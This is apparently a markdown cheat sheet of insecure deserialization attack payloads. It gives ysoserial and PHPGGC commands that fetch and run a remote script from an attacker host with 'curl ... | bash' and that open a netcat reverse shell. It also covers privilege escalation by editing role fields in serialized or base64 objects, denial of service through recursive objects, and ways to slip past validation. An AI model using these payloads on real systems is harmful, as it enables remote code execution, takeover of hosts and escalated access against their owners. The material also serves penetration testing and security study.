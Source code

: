 # Insecure Deserialization Payloads

Here are common payloads and examples used to exploit Insecure Deserialization vulnerabilities:

## Remote Code Execution (RCE) Payloads
   - **Java RCE Payload** (using ysoserial and Commons Collections):
     ```bash
     java -jar ysoserial.jar CommonsCollections1 'curl http://<attack_ip>/malicious.sh | bash' > payload.ser
     ```
     - This generates a malicious Java object that triggers a command injection when deserialized.

   - **PHP RCE Payload** (using PHPGGC):
     ```bash
     phpggc Symfony/RCE1 exec 'nc <attack_ip> <attack_port> -e /bin/bash' > payload.txt
     ```
     - This generates a serialized PHP object that spawns a reverse shell.

## Privilege Escalation Payloads
   - Modify user roles or session data to escalate privileges.
     ```json
     { "user": "attacker", "role": "admin" }
     ```

   - In base64-encoded formats, decode, modify, and re-encode the serialized object:
     ```bash
     echo 'original_base64_string' | base64 --decode
     # Modify the decoded object
     echo 'modified_object' | base64
     ```

## Denial of Service (DoS) Payloads
   - Inject objects that trigger excessive memory or CPU consumption. For example, in Python, deserializing objects like recursive lists can cause memory exhaustion.

# Bypassing Defenses

Here are common techniques to bypass defenses and protections that may be in place to prevent Insecure Deserialization attacks:

## Bypass Validation with Encoding or Obfuscation
   - Applications may check or validate serialized data, but these checks can sometimes be bypassed by using encoding or obfuscation techniques:
     - **Base64 Encoding:** Modify serialized data, re-encode it in base64, and resend it.
     - **Object Property Manipulation:** Modify properties within serialized objects that are not properly checked.
